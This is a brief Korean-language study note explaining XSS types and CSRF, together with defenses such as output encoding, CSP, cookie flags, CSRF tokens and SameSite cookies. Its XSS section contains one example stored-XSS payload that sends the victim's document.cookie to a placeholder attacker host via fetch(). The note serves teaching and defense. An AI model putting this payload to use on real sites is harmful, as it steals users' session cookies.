

XSS와 CSRF는 모두 **피해자의 브라우저**를 이용한다. 서버가 아니라 사용자를 노린다.

## XSS (Cross-Site Scripting) {#xss}

공격자의 스크립트가 다른 사용자의 브라우저에서 실행된다. 세션 탈취, 키로깅,
피싱 폼 삽입이 가능하다.

| 유형 | 설명 |
|---|---|
| Reflected | URL 파라미터가 즉시 응답에 반사됨. 링크 클릭 유도 |
| Stored | DB에 저장되어 방문자마다 실행(게시판, 댓글) — 가장 위험 |
| DOM-based | 클라이언트 JS가 입력을 안전하지 않게 DOM에 반영 |

```html
<!-- 저장형 XSS 페이로드 예시 (인가된 실습 앱에서만) -->
<script>fetch('https://attacker/c?'+document.cookie)</script>

```

**방어**: 출력 인코딩(컨텍스트별), 입력 검증, **CSP(Content-Security-Policy)**,
쿠키에 `HttpOnly`·`Secure` 플래그.

## CSRF (Cross-Site Request Forgery) {#csrf}

로그인된 피해자가 악성 페이지를 열면, 브라우저가 **자동으로 실린 쿠키와 함께**
공격자가 원하는 요청을 정상 사이트로 보낸다.



**방어**: **CSRF 토큰**(예측 불가한 값을 폼에 포함해 검증),
`SameSite=Lax/Strict` 쿠키, 중요 작업에 재인증.
